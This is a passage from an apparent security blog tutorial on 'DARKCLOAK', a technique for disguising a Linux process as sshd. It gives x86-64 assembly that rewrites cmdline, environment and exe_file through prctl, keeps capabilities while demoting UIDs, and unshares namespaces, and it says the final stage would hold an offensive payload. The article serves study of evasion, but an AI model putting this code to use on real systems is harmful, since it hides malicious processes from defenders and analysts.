xor r8, r8
syscall
mov rax, 157
mov rdi, 35
mov rsi, 9 ; PR_SET_MM_ARG_END
lea rdx, [rel mimic_cmdline + mimic_cmdline_length]
xor r10, r10
xor r8, r8
syscall
; redirect env_start and env_end to mimic_environ
mov rax, 157
mov rdi, 35
mov rsi, 10 ; PR_SET_MM_ENV_START
lea rdx, [rel mimic_environ]
xor r10, r10
xor r8, r8
syscall
mov rax, 157
mov rdi, 35
mov rsi, 11 ; PR_SET_MM_ENV_END
lea rdx, [rel mimic_environ + mimic_environ_length]
xor r10, r10
xor r8, r8
syscall
; replace the exe_file field of mm_struct
mov rax, 257 ; OPENAT
mov rdi, -100 ; AT_FDCWD
lea rsi, [rel mimic_exe] ; path of the executable to open ("/usr/sbin/sshd")
xor rdx, rdx ; O_RDONLY
xor r10, r10
syscall
mov r14, rax ; r14 = FD of the opened binary
mov rax, 157
mov rdi, 35 ; PR_SET_MM
mov rsi, 13 ; PR_SET_MM_EXE_FILE
mov rdx, r14 ; FD of the opened binary; kernel extracts the struct file and assigns it to exe_file
xor r10, r10
xor r8, r8
syscall
By default, argv[0] and cmdline reference the same memory region. The PR_SET_MM_ARG_START/ARG_END call decouples both sources: cmdline now reads from mimic_cmdline in .data, while argv[0] on the stack remains independently modified. An analyst directly inspecting the stack will see the altered name, consistent with the value exposed through cmdline.
Phase 6: Capability Retention¶
Before demoting UIDs, capabilities are retained so the kernel's UID fixup does not modify the capability sets to our detriment.
Depending on whether the process has the CAP_SETPCAP capability (bit 8), the most appropriate retention mechanism is selected:
; Capability retention
; .bss
datap resb 24 ; two contiguous __user_cap_data_struct (12 bytes each)
; .text
caps_ret:
; check whether we have CAP_SETPCAP in the effective set
xor r14, r14
mov r14d, [rel datap] ; datap[0].effective (caps 0–31)
bt r14d, 8
jc setpcap_effective ; CF=1 → CAP_SETPCAP available
; without CAP_SETPCAP, use PR_SET_KEEPCAPS
mov rax, 157
mov rdi, 8 ; PR_SET_KEEPCAPS
mov rsi, 1
xor rdx, rdx
xor r10, r10
xor r8, r8
syscall
jmp user_degrade
setpcap_effective:
; with CAP_SETPCAP, use PR_SET_SECUREBITS
mov rax, 157
mov rdi, 28 ; PR_SET_SECUREBITS
mov rsi, 12 ; SECBIT_NO_SETUID_FIXUP | SECBIT_NO_SETUID_FIXUP_LOCKED
xor rdx, rdx
xor r10, r10
xor r8, r8
syscall
With PR_SET_SECUREBITS, all three capability sets survive the UID demotion intact. With PR_SET_KEEPCAPS, only the permitted set is preserved.
Phases 7–8: UID and GID Demotion¶
UIDs are reduced to those of an unprivileged user. If CAP_SETUID (bit 7) is available, UID 1000 is used (conventionally the first non-root user on the system). Otherwise, the original UIDs stored in phase 2 are restored:
; UID demotion
; .bss
datap resb 24 ; two contiguous __user_cap_data_struct (12 bytes each)
; .text
user_degrade:
; check whether we have CAP_SETUID in the effective set
xor r14, r14
mov r14d, [rel datap] ; datap[0].effective (caps 0–31)
bt r14d, 7
jc user_impersonate ; CF=1 → CAP_SETUID available
; without CAP_SETUID, restore the initial UIDs
mov rax, 117 ; SETRESUID
mov edi, [rel ruid_val] ; initial RUID
mov esi, [rel euid_val] ; initial EUID
mov edx, [rel suid_val] ; initial SUID
syscall
jmp capabilities_degrade
user_impersonate:
; with CAP_SETUID, set UIDs to 1000
mov rax, 117 ; SETRESUID
mov rdi, 1000 ; RUID = 1000
mov rsi, 1000 ; EUID = 1000
mov rdx, 1000 ; SUID = 1000
syscall
The same logic is applied to GIDs using the CAP_SETGID capability (bit 6) and the setresgid syscall.
Phase 9: Capability Demotion¶
The effective and inheritable sets are emptied while the permitted set is kept intact. Any capability present in the permitted set can be activated in the other sets later when needed.
; Capability demotion
; .bss
datap resb 24 ; two contiguous __user_cap_data_struct (12 bytes each)
; .text
capabilities_degrade:
; zero out effective and inheritable sets
xor r14, r14
mov [rel datap], r14d ; datap[0].effective (caps 0–31) ← 0
mov [rel datap+12], r14d ; datap[1].effective (caps 32–63) ← 0
mov [rel datap+8], r14d ; datap[0].inheritable (caps 0–31) ← 0
mov [rel datap+20], r14d ; datap[1].inheritable (caps 32–63) ← 0
mov rax, 126 ; CAPSET
lea rdi, [rel hdrp]
lea rsi, [rel datap]
syscall
After this operation the process has no active capabilities (empty effective set).
Phase 10: Namespace Isolation¶
DARKCLOAK creates new namespaces to isolate the process from the rest of the system:
; Namespace isolation
; .text
; UNSHARE
mov rax, 272
mov rdi, 0x78000000 ; CLONE_NEWUSER | CLONE_NEWPID | CLONE_NEWNET | CLONE_NEWIPC
syscall
CLONE_NEWUSER is processed first and grants full capabilities within the new user namespace, which allows creating the other three (CLONE_NEWPID, CLONE_NEWNET, CLONE_NEWIPC) without needing to be root in the original namespace. The process ends up with its own PID within the new namespace, an empty network stack and isolated IPC.
Phase 11: Wait and Exit¶
The process remains suspended for 120 seconds to allow observation of the changes made. After that interval, execution ends. In an ad-hoc implementation, this stage would be replaced by the offensive payload, which would execute under the spoofed identity layer.
; Wait and exit
; .data
timespec:
dq 120 ; seconds
dq 0 ; nanoseconds
; .text
; NANOSLEEP
mov rax, 35
lea rdi, [rel timespec] ; 120 seconds
xor rsi, rsi
syscall
; EXIT
mov rax, 60
xor rdi, rdi
syscall
Final State¶
Once all phases are complete, every queryable source has been modified. From this point on, the visible information of the process no longer corresponds to its initial state. It reflects the identity of the impersonated process.

Acknowledgements¶
Thanks for making it this far.
If you find errors or want to improve/extend the article, the blog content is open to Pull Requests. All contributions are welcome.
Until the next series! ;)